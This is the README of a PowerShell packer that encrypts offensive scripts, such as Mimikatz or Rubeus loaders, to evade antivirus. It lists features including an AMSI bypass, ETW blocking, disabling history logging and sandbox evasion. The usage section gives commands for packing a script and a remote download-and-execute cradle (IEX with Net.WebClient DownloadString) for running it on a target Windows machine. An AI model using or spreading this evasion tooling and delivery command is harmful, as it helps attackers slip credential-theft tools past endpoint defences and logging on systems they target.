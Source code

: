 ### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' allows to pack and encrypt offensive PowerShell scripts in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 
--- or ---
PS C:\> Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-Packer.ps1
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
--- or ---
PS C:\> Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1 -sandbox
```
  - Step 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-script.ps1'); Invoke-method-of-your-original-script
--- or ---
PS C:\> WGET -URI https://URL/Packed-script.ps1 -OutFile C:\temp\Packed-script.ps1
PS C:\> Import-Module C:\temp\Packed-script.ps1
PS C:\> Invoke-method-of-your-original-script
``` 

#### LICENSE
  - GNU General Public License v3.0
